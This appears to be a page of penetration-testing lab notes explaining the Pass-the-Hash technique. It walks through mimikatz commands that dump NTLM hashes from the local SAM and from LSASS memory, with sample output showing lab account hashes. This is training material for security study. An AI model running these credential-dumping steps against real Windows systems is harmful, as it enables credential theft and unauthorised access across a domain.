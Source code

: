 ### Pass-the-Hash

As a result of extracting credentials from a host where we have attained administrative privileges (by using mimikatz or similar tools), we might get clear-text passwords or hashes that can be easily cracked. However, if we aren't lucky enough, we will end up with non-cracked NTLM password hashes.

Although it may seem we can't really use those hashes, the NTLM challenge sent during authentication can be responded to just by knowing the password hash. This means we can authenticate without requiring the plaintext password to be known. Instead of having to crack NTLM hashes, if the Windows domain is configured to use NTLM authentication, we can **Pass-the-Hash** (PtH) and authenticate successfully.

To extract NTLM hashes, we can either use mimikatz to read the local SAM or extract hashes directly from LSASS memory.

Extracting NTLM hashes from local SAM:

This method will only allow you to get hashes from local users on the machine. No domain user's hashes will be available.

**Victim(mimikatz)**

```
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam   
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
```

Extracting NTLM hashes from LSASS memory:

This method will let you extract any NTLM hashes for local users and any domain user that has recently logged onto the machine.

```
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484
```
